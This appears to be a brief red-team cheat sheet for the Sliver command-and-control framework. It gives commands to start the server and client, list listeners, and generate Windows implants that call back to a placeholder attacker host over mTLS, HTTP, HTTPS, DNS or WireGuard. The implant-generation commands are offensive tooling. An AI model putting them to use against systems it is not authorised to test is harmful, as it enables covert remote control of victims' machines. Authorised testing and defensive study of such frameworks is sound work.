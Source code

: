 # Sliver C2

% sliver

#plateform/linux #target/remote #cat/C2 #tag/command-control

## Start Sliver Server
#cat/SETUP 
```
sliver server
```

## Start Sliver Client
#cat/SETUP 
```
sliver client
```

## List Active Listeners
#cat/UTILS 
```
jobs
```

## Generate Windows EXE with mTLS
#cat/PAYLOAD 
```
generate --mtls <lhost>
```

## Generate Windows EXE with HTTP
#cat/PAYLOAD 
```
generate --http <lhost>:<lport>
```

## Generate Windows EXE with HTTPS
#cat/PAYLOAD 
```
generate --https <lhost>:<lport>
```

## Generate Windows EXE with DNS
#cat/PAYLOAD 
```
generate --dns <lhost>
```

## Generate Windows EXE with WireGuard
#cat/PAYLOAD 
```
generate --wg <lhost>:<lport> --key-exchange <lport> --tcp-comms <lport>
```
